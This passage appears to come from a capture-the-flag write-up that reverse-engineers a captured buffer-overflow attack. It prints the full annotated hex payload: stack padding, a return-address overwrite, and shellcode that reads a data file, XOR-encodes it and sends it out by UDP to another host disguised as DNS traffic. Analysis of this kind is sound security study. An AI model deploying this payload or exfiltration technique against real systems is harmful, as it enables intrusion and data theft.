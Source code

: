 The connection then is terminated, however Santa's system follows up with a DNS request (UDP, port 53) towards the client with some odd looking request payload:

```
0000   13 37 01 00 00 01 00 00 00 00 00 00               .7..........
000c                                       20                               // Indicates the length of the request
000d                                          e5 af e5                ...   // DNS request payload
0010   9d 31 ac a3 ca 21 1e c3 79 a6 73 23 5e da b6 a0   .1...!..y.s#^...
0020   8d 2e d3 b7 b6 6b 55 85 7e c8 34 22 7a            .....kU.~.4"z
002d                                          00                      .     // Request payload terminator
002e                                             00 01                 ..   
0030   00 01                                             ..
```

Analysing the binary using Ghidra, it looks like `show_menu` is the core menu function, allowing to either show, enter or delete data or to quit the program.

It reads in 1000 chars to a variable with length 10 and saves them on the stack, condsidering only the very first character.

First, I decided to reverse the shell code, and have a look at what it does. Next I looked at the binary program to find out which part is exploitable.

From this very first analysis, it looks a lot like there's a buffer overflow happening, but let's see.

### Reverse the shell code

Using `xxd` I dumped the shell code into an own binary which I loaded into Ghidra to see what it gives. To my surprise, Ghidra managed to make sense out of it.

In parallel, I had a sneak peek at where the shell code hooks in - which is in the `show_menu` function. The `show_menu` function defines 3 variables, all in all taking up 66 bytes on the stack. 

The shell code is prefixed by 66 characters to override the variables on the stack and the return address.
```
0000   33 20 41 41 41 41 41 41 41 41 41 41 41 41 41 41   3 AAAAAAAAAAAAAA
0010   41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41   AAAAAAAAAAAAAAAA   // 66 (0x42) characters (overriding local variables in `show_menu` function)
0020   41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41   AAAAAAAAAAAAAAAA
0030   41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41   AAAAAAAAAAAAAAAA
0040   41 41                                             AA
0042         10 41 40 00 00 00 00 00                       .A@.....         // Overrides return address to point to 0x00404110
004e                                 68 74 78 74 00 48             htxt.H   // Start of shell code
0050   bf 74 61 5f 64 61 74 61 2e 57 48 bf 64 61 74 61   .ta_data.WH.data
0060   2f 73 61 6e 57 48 89 e7 48 31 f6 48 31 d2 b8 02   /sanWH..H1.H1...
0070   00 00 00 0f 05 48 89 c7 48 ba 00 00 01 00 01 00   .....H..H.......
0080   00 00 52 6a 00 6a 00 6a 00 6a 00 48 89 e6 48 ba   ..Rj.j.j.j.H..H.
0090   01 00 00 00 00 00 00 20 52 48 ba 00 00 00 13 37   ....... RH.....7
00a0   01 00 00 52 ba 20 00 00 00 b8 00 00 00 00 0f 05   ...R. ..........
00b0   48 31 c9 81 34 0e ef be ad de 48 83 c1 04 48 83   H1..4.....H...H.
00c0   f9 20 75 ef bf 02 00 00 00 be 02 00 00 00 48 31   . u...........H1
00d0   d2 b8 29 00 00 00 0f 05 48 89 c7 48 89 e6 48 83   ..).....H..H..H.
00e0   c6 03 ba 32 00 00 00 41 ba 00 00 00 00 6a 00 49   ...2...A.....j.I
00f0   b8 02 00 00                                       ....
00f4               35                                        5              // Destination port
00f5                  c0 a8 00 2a                             ...*          // Destination address
009                               41 50 49 89 e0 41 b9            API..A.   
0100   10 00 00 00 b8 2c 00 00 00 0f 05 bf 00 00 00 00   .....,..........
0110   b8 3c 00 00 00 0f 05 0a                           .<......
```
